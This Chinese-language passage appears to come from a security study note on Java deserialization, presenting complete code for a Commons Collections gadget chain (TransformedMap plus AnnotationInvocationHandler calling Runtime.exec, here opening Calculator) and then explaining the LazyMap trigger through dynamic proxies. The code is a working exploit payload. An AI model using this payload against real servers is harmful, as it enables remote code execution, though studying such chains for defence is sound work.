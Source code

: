 生成payload的完整代码如下
```
private static Object createPayload() throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod",
                    new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),

            new InvokerTransformer("invoke",
                    new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),

            new InvokerTransformer("exec",
                    new Class[]{String.class},
                    new Object[]{"open /Applications/Calculator.app"}),
    };

    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("value", "a");
    Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
    Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object instance = constructor.newInstance(Target.class, outMap);
    return instance;
}
```


#### LazyMap

通过LazyMap和AnnotationInvocationHandler来触发transform函数

LazyMap的触发方式用到了java动态代理方面的知识

大概意思就是当代理对象的方法被调用的时候，就会执行对应InvocationHandler的invoke方法

当使用LazyMap的get方法获取键值时，如果没有获取到对应的值，就会调用LazyMap的transform方法，接下来就需要找到一个调用方法的地方

AnnotationInvocationHandler中的invoke方法刚好调用了输入参数的get方法，所以只要调用了AnnotationInvocationHandler的invoke方法并且var4符合一定条件即可出发漏洞。
